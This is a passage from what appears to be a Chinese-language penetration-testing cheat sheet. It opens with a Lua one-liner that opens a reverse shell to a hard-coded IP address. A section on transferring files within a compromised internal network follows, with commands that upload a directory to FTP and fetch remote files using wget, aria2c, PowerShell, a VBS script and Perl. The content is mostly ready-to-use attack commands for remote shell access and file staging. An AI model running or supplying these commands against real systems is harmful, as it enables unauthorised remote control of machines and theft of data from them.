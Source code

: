 lua

```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('202.103.243.122','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 内网文件的传输和下载



wput

```
wput dir_name ftp://linuxpig:123456@host.com/
```

wget

```
wget http://site.com/1.rar -O 1.rar
```

ariac2（需安装）

```
aria2c -o owncloud.zip https://download.owncloud.org/community/owncloud-9.0.0.tar.bz2
```

powershell

```
$p = New-Object System.Net.WebClient 
$p.DownloadFile("http://domain/file","C:%homepath%file") 
```

vbs脚本

```
Set args = Wscript.Arguments
Url = "http://domain/file"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
.type = 1 '
.open
.write xHttp.responseBody
.savetofile " C:\%homepath%\file", 2 '
end with
```

> 执行 ：cscript test.vbs

Perl

```
#!/usr/bin/perl 
use LWP::Simple; 
getstore("http://domain/file", "file");
```
